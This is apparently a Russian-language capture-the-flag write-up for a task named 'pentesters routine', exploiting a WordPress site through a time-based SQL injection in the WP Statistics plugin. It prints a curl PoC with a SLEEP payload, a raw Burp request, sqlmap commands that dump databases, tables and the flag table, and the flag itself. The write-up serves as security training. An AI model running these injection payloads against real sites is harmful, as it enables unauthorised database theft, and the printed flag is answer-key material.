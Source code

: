 # pentesters routine

В описании таска только `http://15.188.8.126`. Наличие протокола намекает, что нам не надо агресивно тыкать порты и нам хватит стандартного веба.

Переходим по ссылке и встречаем *очередной сайт на wordpress*.

![main](./images/main_page.PNG)

Сразу же запускаем `wp-scan` :

![wpscan](./images/wpscan.PNG)

В результате получаем информацию о наличии двух уязвимостей в плагине статистик.

![results](./images/plugin_vulns.PNG)

Начнем с time-based инъекции так как оназанимает долго времени. Изучив ссылки предложенные сканером находим PoC уязвимого запроса.
```bash
curl -X POST 'http://host/wp-json/wpstatistics/v1/hit' --data "wp_statistics_hit=x&wp_statistics_hit[track_all]=1&wp_statistics_hit[page_uri]=x&wp_statistics_hit[search_query]=x\' UNION ALL SELECT SLEEP(5)-- x
```
Эксплуатировать руками такую инъекцию никто конечно же не будет. Подготовим все что нужно для `sqlmap`. Продублируем этот запрос в `burp suite`(я предпочел убрать нагрузку из PoC чтобы никто не сошел с ума) и отправим в файл.

```
POST /wp-json/wpstatistics/v1/hit HTTP/1.1
Host: 15.188.8.126
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

wp_statistics_hit=x&wp_statistics_hit[track_all]=1&wp_statistics_hit[page_uri]=x&wp_statistics_hit[search_query]=x
``` 

Wordpress использует Mysql, нам известны техника и уязвимый параметр. Команда для `sqlmap` получается примерно такой:

` python2 sqlmap.py -r request.txt -p "wp_statistics_hit[search_query]" --technique=T --level=5 --risk=3 --dbms=mysql --dbs ` 

Убеждаемся в наличии уязвимости и получаем имена бд.

![sqli1](./images/sqli_poc.PNG)
![sqli2](./images/sqli_bd.PNG)

Разработчики таска не стали мучить нас многочасовым ожиданием и первая же таблица в базе `wordpress` - имеет говорящее название `flag`.

`python2 sqlmap.py -r request.txt -p "wp_statistics_hit[search_query]" --technique=T --level=5 --risk=3 --dbms=mysql -D wordpress --tables`

![sqli3](./images/sqli_table.PNG)

Достаем флаг:

`python2 sqlmap.py -r request.txt -p "wp_statistics_hit[search_query]" --technique=T --level=5 --risk=3 --dbms=mysql -D wordpress -T flag --dump`

![sqli4](./images/sqli_dump.PNG)

**Вот и наш флаг:** `MCTF{w0rdpr355_53curity_4h4h}`        


